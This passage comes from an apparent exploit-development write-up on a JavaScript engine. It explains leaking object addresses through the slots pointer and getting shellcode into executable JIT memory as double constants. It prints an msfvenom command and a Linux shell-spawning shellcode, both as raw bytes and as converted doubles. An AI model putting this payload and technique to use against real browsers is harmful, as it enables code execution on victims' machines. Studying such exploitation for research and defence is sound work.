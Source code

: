This function requires some explanation. When we create a property on a JavaScript object a pointer to those properties exists inside the object’s metadata (just like our data pointer from before). On the last memory dump we had no properties defined but can still see the slots pointer 2 values before the data pointer:

```
...
0x3f20d3c6a118: 0xfffe4d4d4d4d4d4d  0xfffe4d4d4d4d4d4d
0x3f20d3c6a128: 0x00003f20d3c66720  0x000055fd568dc088 < slots
0x3f20d3c6a138: 0x000055fd568db828  0x00003f20d3c6a160 < elementsData
0x3f20d3c6a148: 0x0000000000000050  0xfffe09cda9d00820
0x3f20d3c6a158: 0xfff8800000000000  0x424242424242424
...
```

Now if we define a custom property `b.leak` and then use our read primitive to dereference the slots pointer, we get the address of our `obj` which was placed in the slots array. Note that we must mask off the first 2 bytes since these encode type information (pointer tagging).

### Exploitation

If we think about exploitation, we want to get shellcode somewhere in memory and execute it. Unfortunately, it is not that easy because via JavaScript writeable locations are not executable and anything we write from JavaScript might just be interpreted and not even appear consecutive in memory. Even if we had our shellcode in memory and it would be executable – we would still need to find a way to jump to it using just JavaScript since we have some primitives but no control over any registers or the instruction pointer.

Let’s solve the shellcode problem first. One way to get your own code into executable memory is to use double constants. I learned about this method in this SentinelOne blog post: [https://www.sentinelone.com/labs/firefox-jit-use-after-frees-exploiting-cve-2020-26950/](https://www.sentinelone.com/labs/firefox-jit-use-after-frees-exploiting-cve-2020-26950/). Doubles have an 8-byte backing buffer and if we define a bunch of them as constants after another we can get our shellcode bytes in consecutive, executable memory. I wrote a simple online converter to convert shellcode to doubles: [https://vulndev.io/shellcode-converter/](https://vulndev.io/shellcode-converter/).

**Shellcode**

```
msfvenom -p linux/x64/exec cmd="/bin/sh -c 'id; bash'" -f csharp
 
byte[] buf = new byte[58] {0x48,0xb8,0x2f,0x62,0x69,0x6e,
0x2f,0x73,0x68,0x00,0x99,0x50,0x54,0x5f,0x52,0x66,0x68,0x2d,
0x63,0x54,0x5e,0x52,0xe8,0x16,0x00,0x00,0x00,0x2f,0x62,0x69,
0x6e,0x2f,0x73,0x68,0x20,0x2d,0x63,0x20,0x27,0x69,0x64,0x3b,
0x20,0x62,0x61,0x73,0x68,0x27,0x00,0x56,0x57,0x54,0x5e,0x6a,
0x3b,0x58,0x0f,0x05};
```

**Converted Shellcode**

```
6.867659397734779e+246
7.806615353364766e+184
2.541954188459429e-198
3.2060568060029287e-80
3.4574612453438036e+198
7.57500810708945e-119
1.0802257739008538e+117
-6.828527034370483e-229
```
